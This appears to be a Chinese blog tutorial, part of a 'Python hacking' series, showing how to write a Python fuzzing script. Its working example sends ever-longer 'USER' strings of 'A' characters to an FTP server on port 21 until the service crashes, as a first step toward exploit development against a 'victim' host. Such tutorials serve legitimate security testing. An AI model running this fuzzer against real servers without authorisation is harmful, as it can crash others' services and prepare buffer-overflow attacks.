 ```yaml
---
layout: post
title: Python黑客之旅0x4
category: Python
description: Python信息安全中的应用
keywords: Python, KaliLinux
---
```


* TOC 
{:toc}

## 编写Fuzz测试脚本

 这一章将会演示教你如何写一个属于自己的`Fuzz`测试脚本，当我们进行`exploit`研究和开发的时候就可以使用脚本语言发送大量的测试数据给受害者机器，但是这个错误数据很容易引发应用程序崩溃掉。

而`Python`却不同，当程序崩溃之后，此时你的程序会暂时断开连接，随后会立即创建一个新的连接继续执行。
 
 下面我们首先要解决的问题是应用程序如何处理用户输入的内容，因为在进行模糊测试的时候，我们会不定时的想到一些新的思路然后把数据发送给受害者机器上面来测试，这基本思路就是先与服务器建立连接,然后发送测试数据给服务器，通过`while`循环语句来判断是否成功，即使出现错误也会处理掉:
 




## 下面是我们的扫描器伪代码:
 
``` python
 #导入socket,sys模块，如果是web服务那么还需要导入httplib,urllib等模块
 <import modules> 

#设置ip/端口
#调用脚本: ./script.py <RHOST> <RPORT>
RHOST = sys.argv[1]
RPORT = sys.argv[2]
 
#定义你的测试数据,并且设置测试数据范围值
buffer = '\x41'*50
 
#使用循环来连接服务并且发送测试数据
while True:
  try:
    # 发送测试数据
    # 直到递增到50
    buffer = buffer + '\x41'*50
  except:
    print "Buffer Length: "+len(buffer)
    print "Can't connect to service...check debugger for potential crash"
```

上面这个脚本框架能够适用于各种服务，你可以根据你的服务(`https,http,mysql,sshd`)编写特定模糊测试脚本.下面我们演示一个基于`USER`命令的ftp服务器模糊测试脚本:

## 模糊测试脚本

``` python
#导入你将要使用的模块，这样你就不用去自己实现那些功能函数了
import sys, socket
from time import sleep
 
#声明第一个变量target用来接收从命令端输入的第一个值
target = sys.argv[1]
#创建50个A的字符串 '\x41'
buff = '\x41'*50
 
# 使用循环来递增至声明buff变量的长度50
while True:
  #使用"try - except"处理错误与动作
  try:
    # 连接这目标主机的ftp端口 21
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(2)
    s.connect((target,21))
    s.recv(1024)
 
    print "Sending buffer with length: "+str(len(buff))
    #发送字符串:USER并且带有测试的用户名
    s.send("USER "+buff+"\r\n")
    s.close()
    sleep(1)
    #使用循环来递增直至长度为50
    buff = buff + '\x41'*50
 
  except: # 如果连接服务器失败，我们就打印出下面的结果
    print "[+] Crash occured with buffer length: "+str(len(buff)-50)
    sys.exit()
```

> 上面这段代码演示了一个基本的Fuzz测试脚本，但是值得注意的是执行上面的代码，提交`\x41`字符可能不会让你成功的拿下受害主机，但是你可以尝试组合一些其他的字符(用户词典).此外还有一个更加强大的Fuzz测试工具[Spike](https://www.blackhat.com/presentations/bh-usa-02/bh-us-02-aitel-spike.ppt)和[具体介绍与演示](http://resources.infosecinstitute.com/intro-to-fuzzing/),它可以一次性的测试大量数据，并且能让你提高成功概率.

## 练习
大家可以把上面的`ftp`测试换成`http`测试，这里提示:你可能需要使用`httplib/urllib`.下一章
